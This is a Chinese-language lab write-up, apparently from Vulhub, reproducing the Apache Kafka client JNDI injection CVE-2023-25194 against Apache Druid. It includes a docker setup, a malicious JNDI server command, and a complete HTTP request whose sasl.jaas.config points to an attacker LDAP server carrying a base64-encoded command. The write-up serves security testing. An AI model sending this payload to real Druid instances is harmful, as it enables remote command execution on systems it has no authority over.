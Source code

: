 # Apache Kafka Clients LDAP注入漏洞 CVE-2023-25194

## 漏洞描述

Apache Kafka是一个开源分布式消息队列，Kafka clients是相对应的Java客户端。

在版本3.4.0以前，Apache Kafka clients中存在一处JNDI注入漏洞。如果攻击者在连接的时候可以控制属性`sasl.jaas.config`的值为`com.sun.security.auth.module.JndiLoginModule`，则可以发起JNDI连接，进而导致JNDI注入漏洞，执行任意命令。

由于这个漏洞是存在于Java库kafka-clients中，所以我们需要在真实环境下找到使用了这个库的软件，且用户可以控制连接参数。

这个软件就是Apache Druid，其使用kafka-clients来连接Kafka作为其数据源之一。这篇指南就来演示如何利用CVE-2023-25194来攻击Apache Druid。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2023-25194
- https://github.com/projectdiscovery/nuclei-templates/blob/5d90e8275084b0ae9166ec38cacd22e5a5a94fb8/http/vulnerabilities/apache/apache-druid-kafka-connect-rce.yaml
- https://hackerone.com/reports/1529790

## 环境搭建

Vulhub执行如下命令启动一个Apache Druid 25.0.0服务，其内部使用的kafka-clients版本是3.3.1：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8888`即可查看到Apache Druid主页。

![image-20230504090355040](images/image-20230504090355040.png)

## 漏洞复现

首先，使用[JNDIExploit](https://github.com/vulhub/JNDIExploit)启动一个恶意的JNDI服务器：

```
>java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.174.1 -u
```

![image-20230504095808945](images/image-20230504095808945.png)

这个工具给出了很多利用方法，我们使用`ldap://your-jndi-server:1389/Basic/Command/Base64/[base64_encoded_cmd]`，将命令`id > /tmp/success`编码后放在URL中。

将这个恶意LDAP URL放在下面这个请求中，并发送：

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://your-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

![image-20230504101720810](images/image-20230504101720810.png)

进入容器后可见`id > /tmp/success`成功执行。

![image-20230504101743935](images/image-20230504101743935.png)
